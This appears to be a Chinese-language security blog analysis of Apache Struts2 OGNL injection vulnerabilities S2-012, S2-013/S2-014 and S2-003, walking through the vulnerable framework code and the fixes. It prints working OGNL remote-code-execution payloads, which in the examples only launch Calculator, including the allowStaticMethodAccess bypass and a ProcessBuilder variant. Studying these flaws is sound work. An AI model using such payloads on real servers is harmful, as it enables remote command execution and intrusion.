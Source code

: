 S2-012的payload有两种，第一种和后面S2-003、S2-005等分析一样，由于Runtime@getRuntime调用静态方法被Struts2禁止，想要先更改allowStaticMethodAccess属性来开启静态方法调用。而第二种则是不采用静态方法调用。直接绕过了这种限制。
```
%{#_memberAccess["allowStaticMethodAccess"]=true,@java.lang.Runtime@getRuntime().exec("open -a Calculator.app")}
%{new java.lang.ProcessBuilder(new java.lang.String[]{"open", "-a","Calculator.app"}).start()}
```
S2-001本身禁止了`${}`的循环解析。但是这个跳转利用`${%{}}`绕过了这个限制。S2-012修复则是彻底禁止了二次解析。

### S2-013 & S2-014
jsp文件中如果包含`<s:a>`或者`<s:url>`标签，这两个标签都包含`includeParams`属性，作用是将当前页面的参数转发到链接中。`includeParams`有三种属性值`none、get、all`分别是不转发参数、转发get参数、转发所有参数。
```
<p><s:a id="link1" action="link" includeParams="all">"s:a" tag</s:a></p>
<p><s:url id="link2" action="link" includeParams="all">"s:url" tag</s:url></p>
```
对于标签的处理一般都是从`doStartTag()和doEndTag()`走到`TextParseUtil.translateVariables()`。以`<s:a>`标签为例，它对应Anchor类，在处理参数时，会进行`renderUrl()`操作，获取url对应的action、协议link地址、端口、参数等。然后对参数名和参数值都进行`translateAndEncode()`操作。
```java
// UrlHelper
private static String buildParameterSubstring(String name, String value) {
    StringBuilder builder = new StringBuilder();
    builder.append(translateAndEncode(name));  // S2-014 修复时这步变成encode(name)，不再进行解析操作
    builder.append('=');
    builder.append(translateAndEncode(value));  // S2-014 修复时这步变成encode(value)，不再进行解析操作
    return builder.toString();
}
```
顾名思义，该操作进行变量转换和URL编码。而变量转换实际上是`TextParseUtil.translateVariables()`进行OGNL计算。S2-013的payload如下
```%{#_memberAccess["allowStaticMethodAccess"]=true,@java.lang.Runtime@getRuntime().exec("open /System/Applications/Calculator.app")}```
`TextParseUtil.translateVariables()`提取`%{}`中的内容，然后执行`stack.findValue()`操作。经过上面分析也知道`TextParseUtil.translateVariables()`还支持`${}`的解析，所以S2-014的payload只是变形为`${}`

### S2-003
S2-003的demo写个Action就行。当访问该Action，如`index.action?(xxxx)`时，ParametersInterceptor拦截器会解析参数，将参数通过setParameters()写入到要执行的Action中。
```java
public String intercept(ActionInvocation invocation) throws Exception {
    OgnlContextState.setCreatingNullObjects(contextMap, true); 
    OgnlContextState.setDenyMethodExecution(contextMap, true); // 禁止方法执行，对应属性xwork.MethodAccessor.denyMethodExecution=true
    OgnlContextState.setReportingConversionErrors(contextMap, true);
    ValueStack stack = ac.getValueStack();
    this.setParameters(action, stack, parameters); // setParameters
}

protected void setParameters(Object action, ValueStack stack, Map parameters) {
    Iterator iterator = params.entrySet().iterator();
    while(true) {
        entry = (Entry)iterator.next();
        name = entry.getKey().toString();
        acceptableName = this.acceptableName(name) && (parameterNameAware == null || parameterNameAware.acceptableParameterName(name)); // 对name进行过滤，如果不符合直接return跳出循环
	Object value = entry.getValue();
	stack.setValue(name, value);  // 触发
    }
}
```
此处有两个需要注意的点，(1) ParametersInterceptor默认将`denyMethodExecution`设置为true，在`XWorkMethodAccessor`类调用静态方法前，会先取该属性值进行判断。true禁止了静态方法执行。所以想要执行命令就需要先将这个属性设置为false。
```java
public Object callStaticMethod(Map context, Class aClass, String string, Object[] objects) throws MethodFailedException {
    Boolean exec = (Boolean)context.get("xwork.MethodAccessor.denyMethodExecution");
    boolean e = exec == null ? false : exec;
```